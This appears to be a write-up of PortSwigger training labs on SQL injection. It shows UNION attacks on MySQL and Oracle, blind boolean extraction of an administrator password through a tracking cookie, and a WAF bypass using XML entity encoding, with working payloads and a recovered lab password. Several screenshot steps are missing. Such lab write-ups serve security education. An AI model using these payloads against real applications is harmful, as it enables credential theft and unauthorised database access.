

### SQL injection attack, querying the database type and version on MySQL and Microsoft
The Category parameter is injectable: find the number of columns that are returned by the query:
```
?category='+order+by+1--
```
But we get an internal server error, let’s try using another comment escape instruction (#)
<br><br>
We could infer that it is a MySQL DB and that the query returns 2 columns, looking at the page we can also infer that at least one column is textual. Try the follows payload confirm that idea:
<br><br>
Now get the DB version using the MySQL function VERSION()
<br><br> 

### SQL injection attack, listing the database contents on Oracle
The lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual 

The followin attack confirm that the filter page param is prone to SQLi using the category parameter
<br><br> 

Then we have to find out how many columns are returned by the query, looking at the response could be two. Try the followin payload:
    
    GET /filter?category='%20order%20by%202%20-- HTTP/1.1
Trying to order by the third column we got an error, then we can infer that all the returned columns are textual. To confirm that try the following payload:

    GET /filter?category='%20UNION%20SELECT%20'A'%2c'B'%20FROM%20dual%20-- HTTP/1.1

Since we know that the DBMS is Oracle we can proceed to list of the tables that the current user can access:
<br><br> 

With the following query we can get the column name fro the user table:
<br><br> 

Then proceed to get all the users and related passwords from the table:
<br><br> 
That solve the lab

### SQL injection attack, listing the database contents on non-Oracle databases
The category parameter is injectable
<br><br>
We can infer that the number of returned columns are 2, using the following payload:
```
?category='%20order%20by%202--
```
Looking at the response we can even infer that at least one column is a textual one, the following payload confirm that idea:
<br><br>
We can retrieve the DBMS version using the VERSION() function:
<br><br>
And we can get the list of all the user’s tables using the following view:
<br><br>
Using the following payload, we can get the name of the table’s columns
<br><br>
Now we can get all the entries for the user tables as follows:
<br><br>
Following you can find a useful link about Postgresql system queries: https://razorsql.com/articles/postgresql_system_queries.html 

### Blind SQL injection with conditional responses
The lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called <b>users</b>, with columns called <b>username and password</b>. We need to exploit the blind SQL injection vulnerability to find out the <b>password of the administrator user. We can assume that the password only contains lowercase, alphanumeric characters.</b>

So we already have the following information:
- the table containing the user's information is named users
- there is a user called administrator
- her password contains only lowercase letters and eventually numbers

We proceed to test if the <b>trackingId</b> cookie is vulnerable to SQLi:
<br><br>
Adding to the trackID the following payload

    TrackingId=XRjWcbSJ2Xx1LNwB' or 1=2 --

You can notice that the Welcome back message is not present into the response. We can verify if the users table exists and if contains a unser named administrator usign the following boolean condition:

    TrackingId=XRjWcbSJ2Xx1LNwB' AND (SELECT 1 FROM users LIMIT 1)=1 --
<i>Please note that from now on my TrackingId has changed, since my lab expired.</i>

We get back the welcome message again, meaning it is TRUE, of course changing the table name with a dummy valuse and we will not get the welcome back message into the response. That's fine, now we have to find out the length of the administrator password. To do that we take advantage of Turbo intruder, using the following payload;

    TrackingId=t5qXddoYcfINuMvm' AND (SELECT 1 FROM users WHERE username='administrator' AND LENGTH(password)=%s)=1 --
    
Where <b>%s</b> it is the Turbo intruder placeholder (1) that will be replaced with the loop value that represent the password length (2), when the correct length is found the request will be added to the result table (3). Of course we expect only one result.
<br><br>
Lunch the attack and you will see one request added to the table, containing the length's value
<br><br>
So we know that the length of the password is <b>20</b>, adding this information to the fact that it contains only alpha numeric (lower case) characters we can create another [list](./file/list_alphanum_chars.txt) to use in Turbo intruder to configure the next attack. The payload used is the following:

    t5qXddoYcfINuMvm' AND (SELECT SUBSTRING(password,%S,1) FROM users WHERE username='administrator')='%S

We use to parameters (1, 2) in a nested loop (3). We take, using SQL substring, each character for the whole length, so the first placeholder is the character position, we check if the returned value for the sunstring method is equal to the second placeholde, that is an alphanumeric value red fron our list, again if the response contains the welcome message (4) we know that the query is evaluated as TRUE
<br><br>
Lunch the attack, you will notice that the result table begins to be populated with some entry, once finished we should get 20 entries (the password length), starting from the top we have each character as the second payload's value that build the password.
<br><br>
For this lab sessione the administrator password is <b>ms5hlnp8851fm2c0xoyn</b>

### SQL injection with filter bypass via XML encoding
#### Lab
The lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 
Note that a WAF will block requests that contain obvious signs of a SQL injection attack. We need to find a way to obfuscate the malicious query to bypass this filter. It is recommended to use the <b>Hackvertor</b> extension to perform obfuscation.

Inspecting the proxy requests we can see that there is one POST made to get the stock availability:
<br><br>
The product ID and the store ID are passed through XML, we can imagine that the query could be similar to the following:
```
select quantity from stock wehre productId=1 and storeId=1
```
If we try the following payload we are blocked by the WAF
<br><br>
Eventually we can try with basica arithmetic operation:
- first set the storeId to 1, we get 128 units
- retry setting the storeId value to <b>2-1</b> we get <b>128 units</b>, the value for the storeID 1

It means that the operation was executed by the DBMS engine. We can try to obfuscate a payload <b>1+(select 1) using the Hackvertor exstension to try to bypass the WAF</b>:
<br><br>
```
<storeId>
<@dec_entities>1+(select 1)<@/dec_entities>
</storeId>
```
Then the storeId node will look like above. Send the request, the value inside the custom Hackvertor tag will be converted as is shown inspecting Burp Logger
<br><br>
As we can se the union was execute and we got the stock amount corresponding to the ID 2. We can now try to retrive the usernames and passwords stored into the user table using the following payload:
```
<storeId><@dec_entities>
0 union select concat(username,'    ',password) from users
<@/dec_entities></storeId>
```
<br><br>
We can proceed to log-in using the administrator credentials


#### References
+ https://github.com/portswigger/hackvertor
